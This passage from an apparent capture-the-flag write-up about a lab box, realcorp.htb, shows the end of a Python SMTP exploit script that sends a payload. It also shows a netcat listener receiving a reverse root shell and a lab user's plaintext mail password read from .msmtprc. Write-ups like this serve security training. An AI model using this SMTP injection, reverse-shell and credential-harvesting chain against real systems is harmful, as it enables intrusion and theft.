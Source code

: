 	print('Received', repr(data))
	s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"DATA\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(payload)
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"QUIT\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
print("done")
s.close()
{%endhighlight%}

Running this script with proxychains we get a shell back! But it wasn't as easy, because A lot of tinkering was needed to finally get a shell back. First I needed a to check if we had a proper RCE. To do that I gave the mail a command to ping my machine. And to check if I was being pinged I started my tcpdump and saw ping requests. (Yeah... I forgot to note all that in my notes)


{%highlight text%}
 nc -lvp 1234
Listening on 0.0.0.0 1234
Connection received on realcorp.htb 39122
bash: cannot set terminal process group (86): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# whoami
whoami
root
root@smtp:~# hostname
hostname
smtp.realcorp.htb
{%endhighlight%}

Looks like we are already root in this machine. But this box is far from over. After some enumeration I find plain text credentials inside the home directory.

{%highlight text%}
root@smtp:/home/j.nakazawa# cat .msmtprc
# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60
{%endhighlight%}
